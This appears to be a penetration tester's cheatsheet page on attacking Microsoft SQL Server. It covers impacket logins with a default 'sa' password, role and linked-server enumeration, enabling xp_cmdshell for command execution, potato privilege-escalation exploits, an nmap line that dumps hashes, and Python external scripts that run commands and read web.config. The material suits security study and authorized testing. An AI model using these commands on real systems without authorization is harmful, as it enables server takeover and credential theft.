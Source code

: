 
## Overview
---
**Microsoft SQL Server (MS-SQL)** is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network (including the Internet).

- Default Port: **1433**

## Usage
---

### Connecting to Databases

> [!info]
> For more uses of the **impacket** library, see my [Impacket Cheatsheet](../14.%20Cheatsheets/Tools/Impacket%20Cheatsheet.md).

- The ``impacket`` Python library is incredibly powerful, and contains a tool for connecting to MSSQL databases.

```shell
# Connect to MS-SQL Server
impacket-mssqlclient <username>:'<password>'@<target>

# Connect to MS-SQL Server via default SA creds
impacket-mssqlclient sa:'poiuytrewq'@<target>
```

![[Pasted image 20230528134806.png]]

### Commands

```sql
-- Get version
select @@version;
-- Get databases
SELECT name FROM master.dbo.sysdatabases;
-- Use database
USE <database>
-- Get tables
SELECT * FROM <database>.INFORMATION_SCHEMA.TABLES;

-- Get user
select user_name();
-- Get members of the role sysadmin
USE master
EXEC sp_helpsrvrolemember 'sysadmin';
-- Get if the current user is sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin');
-- Get users that can run xp_cmdshell
USE master
EXEC sp_helprotect 'xp_cmdshell'

-- List Linked SQL Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;
```

### Comments

```mysql
-- This is a single-line comment

/*
This is a multi-line comment
*/
```

## Default Admin Credentials
---

```
# Default SQL Server system administrator account
Username: sa
Password: poiuytrewq
```

## xp_cmdshell
---

- ``xp_cmdshell`` is the most common way of establishing code execution via MS-SQL.  By default it is disabled for security, but with the right privileges we can easily enable it.

Per Microsoft documentation, here is how to utilize ``sp_configure`` to enable ``xp_cmdshell``

![[Pasted image 20230306145014.png]]

Once ``xp_cmdshell`` is enabled, you can execute code on the SQL server.

```shell
# Enable XP_CMDSHELL for Remote Code Exection
> EXECUTE sp_configure 'show advanced options', 1;
> RECONFIGURE;
> EXECUTE sp_configure 'xp_cmdshell', 1;
> RECONFIGURE;
> xp_cmdshell '<command>'

# Enable XP_CMDSHELL for Remote Code Exection (one-liner)
EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

![[Pasted image 20230528134406.png]]

## Privilege Escalation
---

The user running MS-SQL server will often have enabled the privilege token ``SeImpersonatePrivilege`` -- this means we can exploit this privilege using one of the many exploits in the potato family to elevate to "NT AUTHORITY/SYSTEM"

- Common Potatoes Exploiting "SeImpersonatePrivilege":
	- **https://github.com/tylerdotrar/SigmaPotato** *(plugging my own repository)*
	- https://github.com/BeichenDream/GodPotato
	- https://github.com/itm4n/PrintSpoofer
	- https://github.com/zcgonvh/EfsPotato

> [!info]
> For **SeImpersonatePrivilege** exploitation, read the [note](../04.%20Privilege%20Escalation/Windows/SeImpersonatePrivilege.md) in my Privilege Escalation section.

## Other
---
(Thank you [@numonce](https://github.com/numonce))

##### Nmap
```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

##### sqsh
- ``sqsh`` is an interactive ms-sql client that is installed on kali by default. When used in conjunction with ``xp_cmdshell`` we can execute arbitrary PowerShell and cmd commands. 

![[Pasted image 20230103184704.png]]


##### Python
- Some versions of ms-sql allow you to execute inline python or R scripts.
```php
# Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```
